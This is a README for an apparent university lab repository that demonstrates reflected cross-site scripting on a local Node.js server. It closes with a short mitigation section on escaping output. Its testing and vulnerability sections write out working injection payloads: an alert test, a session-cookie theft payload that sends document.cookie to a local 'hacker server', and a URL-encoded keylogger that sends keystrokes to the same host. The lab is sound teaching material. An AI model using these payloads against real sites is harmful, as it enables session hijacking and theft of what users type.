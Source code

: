 # Cross-site Scripting (XSS)
Cross-site scripting vulnerabilities in action.

## Requirements
* [Node.js](https://nodejs.org/en/):
  * Mac/Linux - Use [nvm](https://github.com/creationix/nvm) to install node

## Getting Started
Mac users, open Terminal.
In your terminal program, use git to download the project:
```bash
git clone https://github.com/fnev081299/CT6043_XSS.git
```

Go to xss directory:
```bash
cd xss
```

Install dependencies using npm:
```bash
npm install
```

Run the local web server using Node.js:
```bash
node server.js
```
If successful, message: `Server at localhost:3000` is shown. The server is is now listening for requests at [localhost:3000](http://localhost:3000/).

## Test the server site:
Enter something in the textbox then press enter. Notice how the search query you entered is shown in the page.


## XSS:
[OWASP](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) for more information.


## Testing:
Open the developer tools in browser and open the "Console" sub-tab.

Copy/paste and run:
```js
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'hi!\')">');
```

Paste the output into the address bar:
```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('Potential XSS!')%22%3E
```
Or click [this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('Potential XSS')%22%3E).

You should see an alert :: "Potential XSS!".


## Vulnerability
Open the "Application" sub-tab in your browser's developer tools. Under "Storage" -> "Cookies", click "localhost:3000" to show the cookies being saved by the browser for this website.

The cookie named "connect.sid" is a session cookie set by the local web server. Repeat the steps from the "Testing" section, but with:
```html
<img src="does-not-exist" onerror="alert(document.cookie)">
```
Encode and use, or [use this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E).

The session cookie is printed in an alert pop-up.

Start the "Hacker Server":
```bash
node hacker_server.js
```

Steal the session cookie:
```html
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E).

Check the terminal window of the hacker server for the view of the cookie. 

Encode the above HTML and use, or [use this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E).

## Mitigation
At the root, the XSS vulnerability is caused by inserting unsafe ("unescaped") HTML. In the `public/index.html` file, change the "Results" (the `q` parameter) strictly as text content. Uncomment the safe "Results" and comment out the other to see the secure versrion.
